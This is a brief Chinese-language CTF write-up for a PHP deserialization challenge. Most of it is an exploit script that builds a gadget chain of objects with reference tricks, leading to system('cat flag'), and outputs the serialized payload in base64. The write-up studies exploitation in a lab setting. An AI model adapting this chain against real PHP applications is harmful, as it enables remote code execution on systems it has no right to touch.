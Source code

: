 ## 考点

反序列化

## 工具

php环境 手

## 步骤

工业互联网原题，网上搜搜就能看到非弱化版的，WP很多。

这里只给出一种解：

```php
<?php
class KeyPort {}
class Moon {}
class ArrayObj{

    private $iffinish;
    public $name;
    public function __construct(&$a)
    {
        $this->iffinish=&$a;
    }

}

class Sun {

    public function __construct(){
        $process=new KeyPort;
        $arr=new ArrayObj($process->wakeup);
        $arr->name=array('iffinish'=>false);
        $this->process=$process;
        $this->process->finish=$arr;
        $key2=new KeyPort();
        $moon=new Moon();
        $this->moon=$moon;
        $this->moon->process=$key2;
        $arr2=new ArrayObj($process->format);
        $key2->finish=$arr2;
        $arr2->name=array('iffinish'=>array('forward'=>'system'));
        $this->moon->options=array('new'=>&$this->process);
        $this->moon->_forward='cat flag';       
    }

}
$a=new Sun();
echo base64_encode(serialize($a));
```



## 总结

原本是一道很难的题，难点就在于绕wakeup，注释掉之后就简单很多。

上面给的exp是针对未注释之前的，弱化版当然也能通。
